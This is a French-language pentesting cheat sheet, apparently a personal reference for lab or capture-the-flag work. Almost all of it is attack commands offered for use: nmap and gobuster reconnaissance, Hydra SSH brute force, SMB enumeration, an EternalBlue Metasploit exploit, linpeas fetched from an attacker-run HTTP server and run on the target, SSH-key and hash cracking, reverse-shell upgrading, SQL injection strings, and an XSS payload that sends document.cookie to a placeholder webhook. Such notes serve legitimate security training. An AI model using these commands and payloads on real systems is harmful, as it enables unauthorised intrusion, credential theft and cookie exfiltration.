

Pentesting
1. Scan et reconnaissance¶
Nmap¶
Scan standard¶
sudo nmap -sC -sV -p- <IP>
Scan léger (soft)¶
sudo nmap -sV -O -p 1-1000 --version-light <IP>
Scan avancé (hard)¶
sudo nmap -A -p- --script=vuln <IP>
Gobuster (Bruteforce de répertoires)¶
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/big.txt -x php,html
Hydra (Bruteforce d'authentification)¶
SSH¶
hydra -l <nom_utilisateur> -P /usr/share/wordlists/rockyou.txt ssh://<IP>
2. Exploitation de SMB¶
SMB (Server Message Block) est un protocole réseau utilisé pour le partage de fichiers et imprimantes, fonctionnant sur les ports 139 et 445.
Enumération SMB¶
Avec smbclient¶
smbclient -L //<IP> -N
Avec enum4linux¶
enum4linux -a <IP>
Accès aux partages SMB¶
smbclient //<IP>/<partage> -U <utilisateur>
Recherche de vulnérabilités SMB¶
sudo nmap --script smb-vuln* -p 139,445 <IP>
Exploitation avec Metasploit¶
use exploit/windows/smb/ms17_010_eternalblue
set RHOST <IP>
exploit
3. Escalade de privilèges¶
Recherche de fichiers avec le bit SUID¶
find / -type f -perm -4000 2>/dev/null
Utilisation de linpeas¶
Téléchargement et exécution¶
wget https://github.com/peass-ng/PEASS-ng/releases/download/20240915-f58aa30b/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
Exécution depuis une machine distante¶
Sur la machine attaquante :
python3 -m http.server 8000
Sur la machine cible :
cd /tmp
wget http://<IP>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
4. Cracking de mots de passe¶
John the Ripper (SSH Key Password)¶
Conversion de la clé SSH¶
/usr/share/john/ssh2john.py <chemin_vers_ta_clé> > hash_john.txt
Cracking du hash¶
john --wordlist=/usr/share/wordlists/rockyou.txt hash_john.txt
Affichage du mot de passe trouvé¶
john --show hash_john.txt
Hashcat¶
hashcat -a 0 -m <ID-Algo> hash.txt -o cracked.txt /usr/share/wordlists/rockyou.txt
5. Reverse Shell¶
Reverse Shell PHP¶
wget https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
Amélioration du terminal¶
Transformer en TTY interactif¶
python3 -c 'import pty; pty.spawn("/bin/bash")'
Passage en mode raw¶
stty raw -echo
Adaptation du terminal¶
export TERM=xterm
Ressources supplémentaires¶
6. Recherche de fichiers¶
find / -type f -name "<nom-fichier>" 2>/dev/null
7. Lancer un serveur HTTP¶
python3 -m http.server 8000
8. Stéganographie¶
Steghide¶
Cacher un fichier dans une image¶
steghide embed -cf image.jpg -ef secret.txt -p password
Extraire un fichier caché¶
steghide extract -sf image.jpg -p password
Exiftool (métadonnées)¶
exiftool image.jpg
Binwalk (analyse de fichiers binaires)¶
binwalk -e image.jpg
Outguess¶
Cacher un fichier¶
outguess -k "password" -d secret.txt image.jpg output.jpg
Extraire un fichier¶
outguess -k "password" -r output.jpg secret.txt
9. Exploitation Web¶
Injection SQL¶
Input Box Non-String¶
1 or 1=1-- -
Input Box String¶
1' or '1'='1'-- -
Injection XSS¶
Classique¶
<script>alert('XSS')</script>
Redirection¶
<script>window.location.href="{tonlienwebhook&var}".concat(document.cookie)</script>
10. Outils Kali Linux¶
-
Burp Suite : Interception des requêtes HTTP.
-
Sqlmap : Détection et exploitation des injections SQL.
-
Metasploit : Exploitation automatique de vulnérabilités.
-
Nikto : Scan des failles web.
-
Dirb : Recherche de répertoires cachés.
11. Ressources utiles¶
